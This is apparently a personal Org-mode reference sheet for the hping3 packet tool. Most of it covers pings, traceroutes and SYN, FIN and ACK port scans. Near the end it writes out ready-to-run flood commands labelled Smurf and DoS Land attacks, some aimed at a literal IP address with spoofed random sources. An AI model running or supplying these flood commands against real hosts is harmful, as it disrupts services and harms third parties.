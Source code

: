 #+TAGS: hping


* hping3
* Description
This command is used to analyse and assemble tcp/ip packets. hping3 is based on the ping command but is not only limited to the icmp echo requests.

** Possible use cases
- Firewall testing
- Advanced port scanning
- Network testing, using different protocols, TOS, fragmentation
- Manual path MTU discovery
- Advanced traceroute
- Remote OS fingerprinting
- Remote uptime guessing
- TCP/IP stacks auditing

* Usage

** Normal ping test
#+BEGIN_SRC sh
hping3 -1 domain.com
#+END_SRC
1 - protocol type (1 = icmp)

- Traceroute example
#+BEGIN_SRC sh
hping3 --traceroute -V -1 domain.com
#+END_SRC
V - verbose

** Checking port
#+BEGIN_SRC sh
hping3 -V -S -p <port\_number> -s <port\_number> domain.com
#+END_SRC
p - destionation port
s - source port
V - verbose
S - set the syn flag


** Traceroute to a specific port
#+BEGIN_SRC sh
hping3 --traceroute -V -S -p 80 -s 80 domain.com
#+END_SRC
S - tcp flag (syn)
p - source port
s - destination port

- Setting type of icmp
#+BEGIN_SRC sh
hping3 -c 1 -V -1 -C 17 domain.com
#+END_SRC
c - count
C - icmptype
This is set for an icmp address mask request (type 17)

** Fin Port Scan
#+BEGIN_SRC sh
hping3 -c 1 -V -p 80 -s 5050 -F domain.com
#+END_SRC

** Ack Port Scan
#+BEGIN_SRC sh
hping3 -c 1 -V -p 80 -S 5050 -A domain.com
#+END_SRC

** Smurf Attack
#+BEGIN_SRC sh
hping3 -1 --flood -a <dest\_ip> <broadcast\_add>
#+END_SRC

** Dos Land Attack
#+BEGIN_SRC sh
hping3 -1 -V -c 10000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source 51.20.54.122
#+END_SRC
flood - send packets as fast as possible
rand-source - randomise the source ip
d - data size
w - window size

** Setting interface to use for Dos Rand Attack
#+BEGIN_SRC sh
hping3 -S -p 80 -s 5050 --flood --interface <ethx> --rand-source 51.20.54.122
#+END_SRC

* Lecture
* Tutorial
* Books
[[file://home/crito/Documents/Security/Tools/hping2.pdf][hping Tutorial]]
* Links




